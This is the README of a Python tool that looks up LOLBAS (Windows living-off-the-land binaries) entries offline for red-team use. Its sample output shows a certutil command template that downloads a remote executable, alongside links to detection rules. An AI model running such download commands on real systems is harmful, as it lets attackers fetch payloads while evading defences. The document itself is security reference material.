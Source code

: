 ![Image](https://github.com/user-attachments/assets/cd78bde6-e3ea-462d-9402-f1c6dc9ef408)

## Description
This simple Python script uses a CSV from [LOLBAS Project](https://lolbas-project.github.io/) to get information about LOLBins & LOLScripts conveniently in the terminal and offline, for Red Team purposes

## What is LOLBAS
As they themselves identify their project:

The goal of the LOLBAS project is to document all binaries, scripts and libraries that can be used for Living Off The Land techniques.

A LOLBin/Lib/Script must:

- Be a Microsoft-signed file, either native to the OS or downloaded from Microsoft.
- Have extra "unexpected" functionality. It is not interesting to document intended use cases.
    - Exceptions are application whitelisting bypasses.
- Have functionality that would be useful to an APT or red team.

Summary: These are "native" binaries of MS(Windows) based systems that allow from their functionalities to be exploited for cybersecurity purposes.

## Install
```
git clone https://github.com/D4nex/lolbas-info/
cd lolbas-info
pip install colorama
```

## Usage
```
python3 lolbasinfo.py -h
```
![lolbasimage](https://github.com/user-attachments/assets/c1313ed5-615b-4f49-8a96-8514a592f63d)

```
python3 lolbasinfo.py -l
```
List all available LOLBAS included in the cvs to get your information.

```
python3 lolbasinfo.py -lol <lolbin/lolscript>
```
Get information about the selected LOLBAS.
```console
d4nex@pwn:~$ python3 lolbasinfo.py -lol Certutil.exe
      __        __        __             ___  __
|    /  \ |    |__)  /\  /__`    | |\ | |__  /  \
|___ \__/ |___ |__) /~~\ .__/    | | \| |    \__/
                      author: D4nex


[+] Filename: Certutil.exe
[+] Description: Windows binary used for handling certificates
        >_ Command: certutil.exe -urlcache -split -f {REMOTEURL:.exe} {PATH:.exe}
        >_ Command Description: Download and save executable to disk in the current folder.
        >_ Command Usecase: Download file from Internet
        >_ Command Category: [Download]
        >_ Command Privileges: [User]
        >_ Operating System: [Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11]
        *_ Paths: [C:\Windows\System32\certutil.exe, C:\Windows\SysWOW64\certutil.exe]
        !_ Detections: (Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_download.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_encode.yml, Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_certutil_decode.yml, Elastic: https://github.com/elastic/detection-rules/blob/4a11ef9514938e7a7e32cf5f379e975cebf5aed3/rules/windows/defense_evasion_suspicious_certutil_commands.toml, Elastic: https://github.com/elastic/detection-rules/blob/12577f7380f324fcee06dab3218582f4a11833e7/rules/windows/command_and_control_certutil_network_connection.toml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_urlcache_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_download_with_verifyctl_and_split_arguments.yml, Splunk: https://github.com/splunk/security_content/blob/3f77e24974239fcb7a339080a1a483e6bad84a82/detections/endpoint/certutil_with_decode_argument.yml, IOC: Certutil.exe creating new files on disk, IOC: Useragent Microsoft-CryptoAPI/10.0, IOC: Useragent CertUtil URL Agent)
        *_ Resources: https://twitter.com/Moriarty_Meng/status/984380793383370752, https://twitter.com/mattifestation/status/620107926288515072, https://twitter.com/egre55/status/1087685529016193025
        *_ URL: https://lolbas-project.github.io/lolbas/Binaries/Certutil/
        *_ Tags: []
```

## Issues
- Please note that this script was developed for personal use (automation and convenience) so it may contain errors.
- 错误和异常处理
- 面向对象编程，优化结构
- 对代码的评论

